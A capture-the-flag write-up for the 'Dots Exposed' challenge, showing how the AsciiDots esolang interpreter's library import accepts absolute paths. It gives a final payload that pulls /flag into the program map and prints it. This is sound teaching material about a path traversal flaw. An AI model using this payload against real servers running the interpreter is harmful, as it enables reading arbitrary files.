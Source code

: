 # Dots Exposed

**Category**: web, misc \
**Solves**: 33 \
**Points**: 243 \
**Author**: geolado

Server: https://dots.exposed

## Overview

No code provided at all, just this site:

![ss](ss.png)

After some googling I found this: https://github.com/aaronjanse/asciidots

Turns out it's some weird esolang that's based on ASCII art. Let's try running this:
```dots
.-$"Hello, World!"
```

![h](h.png)

So we can assume that the server is running an AsciiDots interpreter, and the
goal is probably to read some flag file on the server.

## Solution

After reading through the language spec (it's actually a pretty cool esolang),
there doesn't seem to be any obvious way to perform IO (besides to `stdout` and
`stdin`). But it might be possible to abuse library imports:

> Using Libraries
>
> A library can be imported by starting a line with `%!`, followed with the file
> name, followed with a single space and then the character that the library
> defines.

Let's look at the source code:

```python
def _get_path_of_lib_file(self, filename):
    dir_paths_to_try = [
        self.program_dir,
        os.path.join(os.path.dirname(os.path.realpath(__file__)), 'libs'),
        os.path.join(os.path.dirname(os.path.dirname(os.path.realpath(__file__))), 'libs'),
    ]

    for dir_path in dir_paths_to_try:
        path = os.path.join(dir_path, filename)  # Vulnerable to directory traversal
        if os.path.isfile(path):
            return path

    raise RuntimeError('Native library "{}" cannot be found'.format(filename))
```

The interpreter checks for files in a pre-defined set of library directories,
but we can easily load any file by using an absolute path.

However, library files need to conform to the AsciiDots syntax. Or do they? I
tried importing a file that contained nothing but `CTF-BR{test_flag}` to see
what would happen:

```dots
%!/flag a
```

There are no errors, but nothing really happens either. But if I try invoking
the library with `.-a`, it throws an exception:

```
RuntimeError: Warp "a" has no destination
```

Let's look at the source code again:

```python
def _import_lib_file_with_warp_id(self, char_obj_array, filename, warp_id, is_singleton):
    path = self._get_path_of_lib_file(filename)

    with open(path, 'r') as lib_file:
        lib_code = lib_file.read()

    lib_char_obj_array = self.map_from_raw(lib_code)

    # ...

    char_obj_array.extend(lib_char_obj_array)  # This is important
```

The function will try to parse it, but none of will really do anything except
the last line:

```python
char_obj_array.extend(lib_char_obj_array)
```

This `char_obj_array` is set to `self.world.map`, which is just a 2D list
container a "map" of the word. For example, given this program:

```
/-&
|
\-\ /-\
  | | |
/-/ | \-\
\---/   |
        |
        \-.

/->--
| |
\-/
```

The map will be this (ugly but you get the idea):

```python
[
  ['/', '-', '&']
  ['|']
  ['\\', '-', '\\', ' ', '/', '-', '\\']
  [' ', ' ', '|', ' ', '|', ' ', '|']
  ['/', '-', '/', ' ', '|', ' ', '\\', '-', '\\']
  ['\\', '-', '-', '-', '/', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '\\', '-', '.']
  []
  ['/', '-', '>', '-', '-']
  ['|', ' ', '|']
  ['\\', '-', '/']
]
```

So when we import a library, it will literally just append the file contents to
the end of the map.

Example program:

```dots
%!flag a

.-a
```

Map:
```python
[
  ['%', '!', 'f', 'l', 'a', 'g', ' ', 'a']
  []
  ['.', '-', 'a']
  ['C', 'T', 'F', '-', 'B', 'R', '{', 'f', 'a', 'k', 'e', '_', 'f', 'l', 'a', 'g', '}']
]
```

We need `a` to in the map (outside of the line where it's imported) in order
for the library to actually be loaded. To prevent the `Warp "a" has no destination` error, we can just ... never invoke it by never letting a dot touch it:

```dots
%!flag a

a
```

So now that we have the flag in the map, how do we exfiltrate it? The answer is pretty simple actually:

```dots
%!flag a

a

.................
|||||||||||||||||
$$$$$$$$$$$$$$$$$
'''''''''''''''''
CTF-BR{fake_flag}  `` This will be appended when the library loads
```

Using single quotes ensures that the character is printed immediately, so even
if the quote is unclosed, the character will still be printed.

Final payload (and make sure there's no newline at the end of the file):

```dots
%!/flag a

a

..................................................
||||||||||||||||||||||||||||||||||||||||||||||||||
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
''''''''''''''''''''''''''''''''''''''''''''''''''
```

![f](f.png)

Such a cool challenge 😍
